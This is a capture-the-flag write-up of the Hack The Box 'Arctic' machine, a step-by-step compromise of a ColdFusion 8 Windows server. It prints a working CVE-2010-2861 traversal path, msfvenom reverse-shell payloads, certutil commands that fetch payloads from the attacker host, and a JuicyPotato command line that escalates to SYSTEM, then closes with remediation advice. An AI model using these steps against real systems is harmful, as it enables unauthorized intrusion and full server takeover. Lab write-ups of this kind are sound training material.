# Hack The Box — Arctic Writeup

| Field | Value |
| --- | --- |
| Platform | Hack The Box |
| Machine | Arctic |
| Category | Windows |
| Target | `10.129.31.76` |
| Attacker VPN address | `10.10.14.7` |
| Completed | 26 August 2026 |
| Author | Rully Miftahur Rozaq |

> **Scope and authorization:** This writeup documents activity performed only against the authorized Hack The Box Arctic lab machine. Credential material and flag values are redacted for publication.

## Summary

The target exposed a JRun web server on TCP port `8500` running Adobe ColdFusion 8. I exploited the ColdFusion locale directory traversal vulnerability, identified as CVE-2010-2861, to retrieve the administrator password hash. After recovering the password, I authenticated to the ColdFusion Administrator panel and abused the Scheduled Tasks feature to write a JSP reverse shell into the web root.

The initial shell ran as `arctic\tolis`. Local enumeration showed that the account had `SeImpersonatePrivilege` enabled. I used JuicyPotato with a Windows reverse-shell payload to impersonate an `NT AUTHORITY\SYSTEM` token, obtain a SYSTEM shell, and access the root flag.

## Attack Path

```text
JRun on TCP 8500
    → ColdFusion 8 identified
    → CVE-2010-2861 directory traversal
    → Administrator hash recovered and cracked
    → ColdFusion Administrator access
    → Scheduled Task writes shell.jsp
    → Shell as arctic\tolis
    → SeImpersonatePrivilege discovered
    → JuicyPotato token impersonation
    → NT AUTHORITY\SYSTEM
```

## Tools Used

- Nmap
- Metasploit Framework
- Hashcat
- Msfvenom
- Python HTTP server
- CertUtil
- JuicyPotato
- Netcat

## 1. Reconnaissance

I started with an Nmap default-script and service-version scan:

```bash
nmap -sV -sC 10.129.31.76
```

The relevant results were:

```text
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
```

The JRun service on port `8500` was the most interesting finding because Adobe ColdFusion commonly used JRun as its Java application server. Browsing the service confirmed the presence of the ColdFusion Administrator interface under `/CFIDE/administrator/`.



*Figure 1 — Nmap identified Microsoft RPC services and a JRun web server on TCP port 8500.*

## 2. ColdFusion Directory Traversal

Researching ColdFusion 8 led to CVE-2010-2861, a directory traversal vulnerability in the `locale` parameter. Metasploit provided an auxiliary module for testing the issue:

```text
search CVE-2010-2861
use auxiliary/scanner/http/coldfusion_locale_traversal
set RHOSTS 10.129.31.76
set RPORT 8500
show options
```



*Figure 2 — The ColdFusion locale traversal module was configured for the target and port 8500.*

### 2.1 Initial unsuccessful attempts

I first tried shorter traversal paths:

```text
set FILE ../../../../../../lib/password.properties
run

set FILE ../../../../../../ColdFusion8/lib/password.properties
run
```

Metasploit printed the tested URLs and reported that the scan completed, but it did not print a green `[+] FILE:` result. This meant the scanner had sent the requests, not that the target file had been retrieved.



*Figure 3 — The module completed its requests, but the absence of `[+] FILE:` showed that retrieval had failed.*

The supplied path did not contain enough traversal depth and was missing the `%00en` suffix expected by this ColdFusion traversal technique. I corrected the value:

```text
set FILE ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
run
```

The module then returned the contents of `password.properties`:

```text
[+] 10.129.31.76 FILE: ...
password=[REDACTED_SHA1_HASH]
encrypted=true
```

This confirmed that CVE-2010-2861 was exploitable and disclosed the encrypted ColdFusion Administrator password.

## 3. Credential Recovery

The recovered value was identified as a SHA-1 hash. I used Hashcat mode `100`, which corresponds to raw SHA-1:

```bash
hashcat -m 100 -a 0 '<REDACTED_SHA1_HASH>' <WORDLIST>
hashcat -m 100 '<REDACTED_SHA1_HASH>' --show
```

Hashcat recovered the administrator password. The password and hash are intentionally omitted from this public writeup. I used the recovered credential to authenticate successfully to the ColdFusion Administrator interface.

## 4. Initial Foothold Through ColdFusion Scheduled Tasks

### 4.1 Preparing the JSP reverse shell

The payload and handler evidence show that the JSP reverse shell used the following parameters:

```text
Payload: java/jsp_shell_reverse_tcp
LHOST:   10.10.14.7
LPORT:   443
```

A matching JSP payload can be generated with:

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=10.10.14.7 LPORT=443 \
  -f raw -o shell.jsp
```

I served the payload from Kali over TCP port `80`:

```bash
python3 -m http.server 80
```

The Metasploit handler was configured as follows:

```text
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.7
set LPORT 443
run
```

### 4.2 Writing the payload to the web root

Inside ColdFusion Administrator, I created a Scheduled Task with these important values:

| Setting | Value |
| --- | --- |
| Task name | `shell` |
| URL | `http://10.10.14.7/shell.jsp` |
| Publish | **Save output to a file** enabled |
| Output file | `C:\ColdFusion8\wwwroot\shell.jsp` |



*Figure 4 — Scheduled Task fields used to fetch the JSP payload and write it into the ColdFusion web root. The screenshot was captured before the Save Output checkbox was corrected.*

### 4.3 Troubleshooting the 404 response

My first request to the uploaded shell returned:

```text
404
java.io.FileNotFoundException: /shell.jsp
```



*Figure 5 — JRun could not find the JSP because the Scheduled Task had fetched the URL without saving its response to the web root.*

The Scheduled Task interface reported that the task completed successfully, but the **Save output to a file** checkbox had not been selected. Consequently, ColdFusion requested the JSP but discarded the response. After enabling that option and using the absolute Windows path, the target fetched the payload successfully:



*Figure 6 — HTTP `200` requests from the target confirmed successful payload delivery.*

I triggered the JSP at:

```text
http://10.129.31.76:8500/shell.jsp
```

The Metasploit handler received a command shell:

```text
Command shell session 1 opened
Microsoft Windows [Version 6.1.7600]
```

## 5. User Access

The shell started in the ColdFusion runtime directory. I moved to the user desktop and enumerated its contents:

```cmd
cd C:\Users\tolis\Desktop
dir
type user.txt
```

The `user.txt` flag was recovered successfully and is represented as `[REDACTED_USER_FLAG]` in this report.



*Figure 7 — The reverse shell opened successfully and the user flag was located on the `tolis` desktop.*

## 6. Privilege-Escalation Enumeration

I collected operating-system information:

```cmd
systeminfo
```

The most relevant findings were:

```text
Host Name:      ARCTIC
OS Name:        Microsoft Windows Server 2008 R2 Standard
OS Version:     6.1.7600 Build 7600
System Type:    x64-based PC
Hotfix(s):      N/A
```



*Figure 8 — The target was an x64 Windows Server 2008 R2 system with no hotfixes listed.*

I then inspected the current identity and token privileges:

```cmd
whoami
whoami /priv
```

The shell ran as `arctic\tolis`, and the token contained:

```text
SeImpersonatePrivilege    Enabled
```



*Figure 9 — `SeImpersonatePrivilege` was enabled for the compromised account.*

This privilege allows a service account to impersonate authenticated security tokens. On the Windows Server 2008 R2 target, it provided a viable path to SYSTEM through JuicyPotato.

## 7. Privilege Escalation with JuicyPotato

### 7.1 Preparing the Windows payload

I generated an x64 Windows reverse shell matching the final Netcat listener on port `443`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
  LHOST=10.10.14.7 LPORT=443 \
  -f exe -o rev.exe
```

I served both `JuicyPotato.exe` and `rev.exe` over the existing Python HTTP server. On the target, I downloaded them to the writable `tolis` desktop:

```cmd
certutil -urlcache -split -f http://10.10.14.7/JuicyPotato.exe C:\Users\tolis\Desktop\JuicyPotato.exe

certutil -urlcache -split -f http://10.10.14.7/rev.exe C:\Users\tolis\Desktop\rev.exe

dir C:\Users\tolis\Desktop\*.exe
```

The files were initially tested under `C:\Windows\Temp`, but the downloaded file was not available there to the low-privileged shell. Using a directory owned by `tolis` and absolute output paths resolved the problem.

### 7.2 Correcting the JuicyPotato syntax

The first invocation omitted the mandatory `-p` option before the payload path:

```cmd
JuicyPotato.exe -l 1337 C:\Users\tolis\Desktop\rev.exe -t *
```

JuicyPotato displayed its usage information instead of executing the payload.



*Figure 10 — Both executables were present, but the first JuicyPotato invocation lacked the `-p` program option.*

I corrected the syntax and supplied a BITS CLSID suitable for the target:

```cmd
C:\Users\tolis\Desktop\JuicyPotato.exe -l 1337 -p C:\Users\tolis\Desktop\rev.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

The options have the following purposes:

| Option | Purpose |
| --- | --- |
| `-l 1337` | Starts the local COM listener on port 1337 |
| `-p rev.exe` | Specifies the program to launch with the impersonated token |
| `-t *` | Tries both supported process-creation methods |
| `-c {CLSID}` | Selects the BITS COM class used to obtain a SYSTEM token |

The exploit reported:

```text
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```



*Figure 11 — JuicyPotato obtained an `NT AUTHORITY\SYSTEM` token and launched the reverse-shell payload.*

The original JSP shell still returned `arctic\tolis` because JuicyPotato created a separate process rather than replacing the existing shell. The elevated shell arrived at a new Netcat listener:

```bash
nc -lvnp 443
```

## 8. SYSTEM Access and Root Flag

The listener received a new connection from `10.129.31.76`, and the command prompt opened under `C:\Windows\system32`. I accessed the Administrator desktop:

```cmd
whoami
cd C:\Users\Administrator\Desktop
dir
type root.txt
```

The elevated identity was `NT AUTHORITY\SYSTEM`, and `root.txt` was recovered successfully. Its value is redacted as `[REDACTED_ROOT_FLAG]`.



*Figure 12 — The SYSTEM reverse shell reached the Administrator desktop and located the root flag.*

## 9. Troubleshooting Summary

| Symptom | Cause | Correction | Verification |
| --- | --- | --- | --- |
| Metasploit printed URLs but no `[+] FILE:` | Traversal depth was insufficient and `%00en` was missing | Used the complete ColdFusion 8 path with `%00en` | `password.properties` contents were returned |
| `/shell.jsp` returned JRun 404 | Scheduled Task output was not being saved | Enabled **Save output to a file** and used `C:\ColdFusion8\wwwroot\shell.jsp` | Target requested `shell.jsp` with HTTP 200 and the handler received a shell |
| File did not appear under `C:\Windows\Temp` | The low-privileged context could not reliably use that destination | Used `C:\Users\tolis\Desktop` with an absolute output path | `dir` showed both executables |
| JuicyPotato displayed its help text | Mandatory `-p` option was omitted | Added `-p`, `-t`, and `-c` with their required values | `CreateProcessWithTokenW OK` was returned |
| `whoami` still showed `arctic\tolis` after JuicyPotato succeeded | The command was executed in the original shell | Checked the separate Netcat listener created by `rev.exe` | The new shell ran as SYSTEM and accessed `root.txt` |

## 10. Important Command Reference

| Command | Explanation |
| --- | --- |
| `nmap -sV -sC <IP>` | Detects service versions and runs Nmap default scripts |
| `set FILE <path>%00en` | Supplies the traversal path and ColdFusion locale suffix |
| `hashcat -m 100` | Selects raw SHA-1 mode |
| `python3 -m http.server 80` | Serves payload files from Kali over HTTP |
| `certutil -urlcache -split -f <URL> <file>` | Downloads a file to an explicit Windows path |
| `systeminfo` | Displays the Windows version, build, architecture, and hotfix summary |
| `whoami /priv` | Lists privileges held by the current access token |
| `nc -lvnp 443` | Opens a verbose Netcat listener on TCP port 443 |

## 11. Security Impact and Remediation

The compromise demonstrated a complete path from an exposed legacy web application to SYSTEM-level control of the Windows server. The following defensive actions would break the attack chain:

1. Upgrade or retire ColdFusion 8 and apply all relevant Adobe security updates.
2. Restrict external access to `/CFIDE/administrator/` through network controls and administrative allowlists.
3. Remove or tightly control Scheduled Task functionality that can retrieve remote content and write into the web root.
4. Run application services with dedicated, least-privileged accounts and review whether impersonation privileges are required.
5. Patch the underlying Windows operating system and replace unsupported Windows Server releases.
6. Monitor web-root changes, outbound connections from application services, and suspicious use of `certutil.exe`.

## 12. Lessons Learned

- A scanner completing its run does not prove exploitation; success required the explicit `[+] FILE:` evidence.
- Small syntax details such as the traversal depth, `%00en`, a checkbox, or the `-p` option determined whether each stage worked.
- The ColdFusion Scheduled Task feature converted administrative web access into arbitrary file write and code execution.
- `systeminfo` identified the legacy operating system, while `whoami /priv` exposed the decisive token privilege.
- `CreateProcessWithTokenW OK` meant a new elevated process had started; it did not elevate the original shell.
- Writable-path selection matters during payload transfer. A user-owned directory provided more reliable staging than `C:\Windows\Temp`.

## Conclusion

The Arctic machine was compromised through an exposed and vulnerable ColdFusion 8 installation. CVE-2010-2861 disclosed the administrator password hash, ColdFusion Scheduled Tasks provided a JSP foothold as `arctic\tolis`, and the enabled `SeImpersonatePrivilege` allowed JuicyPotato to create an `NT AUTHORITY\SYSTEM` process. Both user and root objectives were completed, with credential and flag values redacted from this publication-ready version.
